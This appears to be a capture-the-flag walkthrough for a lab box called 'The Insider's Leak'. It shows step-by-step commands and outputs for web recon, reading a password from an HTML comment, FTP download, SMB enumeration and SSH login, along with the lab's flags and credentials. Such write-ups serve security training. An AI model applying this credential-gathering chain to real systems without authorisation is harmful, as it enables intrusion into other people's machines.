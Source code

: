 
---

## 🕵️‍♂️ CTF 2: The Insider’s Leak (Live Run)

### 🎯 Objective

Follow the clues left behind by a disgruntled insider and uncover sensitive data using web, FTP, SMB, and SSH enumeration.

---

### 🧩 Step 1: Web Recon

**Command:**
```bash
curl http://<target-ip>/robots.txt
```
**Output:**
```
User-agent: *
Disallow: /leaks/
```

**Flag:**
```bash
curl http://<target-ip>/leaks/flag1.txt
# FLAG{recon_detected}
```

---

### 🔍 Step 2: HTML Source Analysis

**Command:**
```bash
curl http://<target-ip>/leaks/index.html
```
**Discovered:**
```html
<!-- zip_password=leakpass123 -->
```

---

### 📦 Step 3: FTP Access

**Command:**
```bash
ftp <target-ip>
ls
get data.zip
bye
unzip -P leakpass123 data.zip
cat flag2.txt
```
**Output:**
```
FLAG{cred_inside}
username:sshuser
```

---

### 🗂️ Step 4: SMB Enumeration

**Command:**
```bash
smbclient //192.168.X.X/smbshare -U smbuser
# Password: smb123
ls
get admin_notes.txt
exit
cat admin_notes.txt
```

**Output:**
```
Internal note: SSH password for sshuser is ssh123
FLAG{smb_enum_success}
```

---

### 🔐 Step 5: SSH Login

**Command:**
```bash
ssh sshuser@<target-ip>
# Password: ssh123
cat flag3.txt
```

**Output:**
```
FLAG{access_granted}
```

---

### ✅ CTF Summary

| Step | Technique | Flag |
|------|-----------|------|
| robots.txt | Web Recon | `FLAG{recon_detected}` |
| HTML comment | Info leak | `leakpass123` |
| FTP + ZIP | File access | `FLAG{cred_inside}` |
| SMB | Note leakage | `FLAG{smb_enum_success}` |
| SSH | Remote access | `FLAG{access_granted}` |

---

> 🚀 Completed live by Abhi Kaushik
